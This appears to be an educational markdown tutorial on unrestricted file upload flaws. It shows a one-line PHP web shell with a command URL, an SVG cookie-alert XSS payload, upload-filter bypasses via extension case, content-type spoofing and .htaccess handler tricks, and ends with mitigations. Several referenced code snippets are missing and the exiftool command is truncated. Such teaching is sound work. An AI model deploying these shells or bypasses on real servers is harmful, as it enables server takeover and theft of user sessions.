



# Unrestricted File Upload

> File upload vulnerability is a common security issue in most web applications that have a file upload feature without any security validation against the uploaded files , this vulnerability could allow attackers to upload a file with malicious code in it , which could be executed on the hosting server . 

 
## Impact
1. Uploading phishing pages into the website 
2. Compromising the hosting server by uploading a shell 
3. Uploading a permanent XSS payload which can compromise users access .
4. Injecting files with malicious paths which can overwrite existing files , as we could upload “.htaccess” file to execute specific files/scripts.

## File Upload Exploitation

1. **RCE through File Upload**
In some web applications there is no validation for the uploaded files, in this case the attacker could upload a shell to the server.

Eg uploading shell.php file with the following content.
```
<?php
system($_GET['cmd']);
?>
```
After uploading the file, the attacker will go to the path where this file is uploaded then he will send OS commands that will be executed by the server.

eg `http://example.com/upload/shell.php?cmd=ls -la`

2. **XSS through file upload**

Sometimes the web applications accept SVG files by which the attacker could inject javascript codes that will be executed when the file is uploaded.

The following XML is an example of a valid SVG file that will execute JS when loaded in the browser:
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<script type="text/javascript">
alert("test: "+document.cookie);
</script>
</svg>
```
After uploading the file.svg , and visiting the path of this file , the injected JS code will be executed to the end user . 

3. **Bypassing Upload Protection**
**Example 1:**

In some cases you will not be able to upload files with specific extensions like (.php, JSP , etc )


The above code snippet is an example of a basic protecting technique in which the developer checks if the uploaded file is of extension (php , php3 , phtml , php4).

Then he will return a “Not allowed” message if one of these extensions was found .

The weakness here is that the code is not using a case-sensitive check . which  can be bypassed easily by sending the file with upper-case format .

e.g shell.PHP 

**Example 2:**

The below code snippet is an example of a mime content type verification .


It will check the content type of the uploaded file , checking if it is a gif/jpeg image file, and if not it will return a “Not allowed” message . 

This could be easily bypassed by intercepting the HTTP request using burp suite and changing the content-type header to the specified extension .

**Example 3:**



The above code snippet is an example for a case-sensitive verification .

This technique can be bypassed by uploading .htaccess file .

		1. htaccess trick
		Attackers can upload an htaccess file which can trick the apache server to execute safe extension files.
		
		There are two methods that can be used:
		
		- **The SetHandler method** - Attackers can upload the following .htaccess file that will trick the apache server to execute any file with name _php.gif as a valid PHP file.
		```
		<FilesMatch "_php.gif">
			SetHandler application/x-httpd-php
		</FilesMatch>
		```
		Then easily the attacker will upload a file _php.gif that contains the malicious code that will be executed by the hosting server.
		
		- **The AddType method** - This method is similar as SetHandler, one can upload the .htaccess file with the following content
		```
		AddType application/x-httpd-php.gif
		```
		This apache server will consider any .gif file as a valid php file that can be executed by the hosting server.
		
**Example 4:**


The above code snippet is an example of image content verification , in which it uses the getimagesize() function that will check the size of the image and checks if a correct image is provided .

This technique can be bypassed by injecting php code into the image comment .

Using exiftool :
```
exiftool -Comment="file.jpg
```
Then 
```
mv file.jpg file.php.jpg
```

## Mitigation
1. Instead of using a blacklist , use a whitelist of the acceptable files 
2. Do not expose the path where the uploaded file is stored .
3. Change the file name to something else generated by the application 
4. Set a file size limit
5. Validate the file type , and do not trust the content-type header.

## Challenges
1. Join team
2. Black Inc.
